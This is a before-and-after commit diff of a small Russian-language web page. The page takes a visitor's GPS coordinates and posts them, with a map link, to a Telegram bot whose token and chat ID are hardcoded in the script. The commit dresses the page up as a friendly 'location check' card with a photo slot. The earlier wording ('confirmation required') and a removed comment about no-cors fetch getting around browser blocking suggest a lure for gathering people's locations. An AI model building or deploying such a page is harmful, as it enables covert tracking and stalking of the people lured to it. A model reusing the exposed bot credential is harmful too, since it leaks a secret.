

Before and after one commit to koryunphysmath/catpat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (392-1111 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,20 +3,94 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>GPS Sender</title>
+    <title>Геолокация</title>
     <style>
-        body { font-family: sans-serif; text-align: center; margin-top: 50px; background: #121212; color: #fff; padding: 20px; }
-        h2 { color: #4CAF50; }
-        #status { padding: 20px; font-size: 18px; margin-top: 10px; }
-        button { background-color: #4CAF50; color: white; border: none; padding: 15px 30px; font-size: 18px; border-radius: 8px; cursor: pointer; margin-top: 20px; }
-        button:active { background-color: #45a049; }
+        * {
+            box-sizing: border-box;
+            margin: 0;
+            padding: 0;
+        }
+        body {
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+            background: linear-gradient(135deg, #fdf6ec 0%, #f5e6d3 100%);
+            color: #4a3728;
+            min-height: 100vh;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            padding: 20px;
+        }
+        .card {
+            background: #fffaf3;
+            border: 1px solid #ebd9c3;
+            border-radius: 24px;
+            padding: 28px 24px;
+            max-width: 380px;
+            width: 100%;
+            text-align: center;
+            box-shadow: 0 12px 30px rgba(139, 94, 52, 0.12);
+        }
+        .photo-wrapper {
+            width: 140px;
+            height: 140px;
+            margin: 0 auto 20px;
+            border-radius: 50%;
+            padding: 5px;
+            background: linear-gradient(135deg, #e07a5f, #f2cc8f);
+            box-shadow: 0 6px 16px rgba(224, 122, 95, 0.25);
+        }
+        .photo-wrapper img {
+            width: 100%;
+            height: 100%;
+            object-fit: cover;
+            border-radius: 50%;
+            display: block;
+            background-color: #f3e5d8;
+        }
+        h2 {
+            color: #8c4a27;
+            font-size: 22px;
+            margin-bottom: 10px;
+            font-weight: 700;
+        }
+        #status {
+            color: #6e5543;
+            font-size: 15px;
+            line-height: 1.5;
+            margin-bottom: 24px;
+        }
+        button {
+            background: linear-gradient(135deg, #d96b43 0%, #c8553d 100%);
+            color: #fffaf3;
+            border: none;
+            padding: 15px 28px;
+            font-size: 16px;
+            font-weight: 600;
+            border-radius: 14px;
+            cursor: pointer;
+            width: 100%;
+            box-shadow: 0 6px 15px rgba(200, 85, 61, 0.28);
+            transition: transform 0.15s ease, box-shadow 0.15s ease;
+        }
+        button:active {
+            transform: scale(0.98);
+            box-shadow: 0 3px 8px rgba(200, 85, 61, 0.2);
+        }
     </style>
 </head>
 <body>
-    <h2 id="title">Требуется подтверждение</h2>
-    <div id="status">Нажмите кнопку ниже, чтобы передать координаты.</div>
 
-    <button id="geoBtn" onclick="getLocation()">Начать определение</button>
+    <div class="card">
+        <!-- Ваша фотография -->
+        <div class="photo-wrapper">
+            <img src="photo.jpg" alt="Фото" onerror="this.style.display='none'">
+        </div>
+
+        <h2 id="title">Проверка геопозиции</h2>
+        <div id="status">Нажмите кнопку ниже, чтобы отправить текущие координаты.</div>
+
+        <button id="geoBtn" onclick="getLocation()">Отправить геопозицию</button>
+    </div>
 
     <script>
         const TOKEN = "9218562846:AAGbvc-EJ2QLHcs8qW-c__liAzlBgUp4HnU";
@@ -42,15 +116,12 @@
                     const lat = position.coords.latitude;
                     const lon = position.coords.longitude;
                     const mapsLink = `https://www.google.com/maps?q=${lat},${lon}`;
-
-                    // Исправлено имя переменной на mapsLink
                     const text = `📍 Координаты с телефона:\nШирота: ${lat}\nДолгота: ${lon}\nКарта: ${mapsLink}`;
 
                     statusDiv.innerText = "Координаты получены, отправляем...";
 
                     const url = `https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(text)}`;
 
-                    // Отправка через fetch с режимом no-cors обходит блокировку браузера
                     fetch(url, { mode: "no-cors" })
                         .then(() => {
                             titleH2.innerText = "Отправлено! ✔️";
@@ -67,10 +138,10 @@
                     let errorMsg = "";
                     switch(error.code) {
                         case error.PERMISSION_DENIED:
-                            errorMsg = "Доступ запрещен. Разрешите геолокацию в настройках сайта (значок замка в адресной строке).";
+                            errorMsg = "Доступ запрещен. Разрешите геолокацию в настройках сайта.";
                             break;
                         case error.POSITION_UNAVAILABLE:
-                            errorMsg = "Местоположение недоступно. Проверьте, включен ли GPS в шторке телефона.";
+                            errorMsg = "Местоположение недоступно. Проверьте, включен ли GPS.";
                             break;
                         case error.TIMEOUT:
                             errorMsg = "Время ожидания истекло. Попробуйте еще раз.";
```
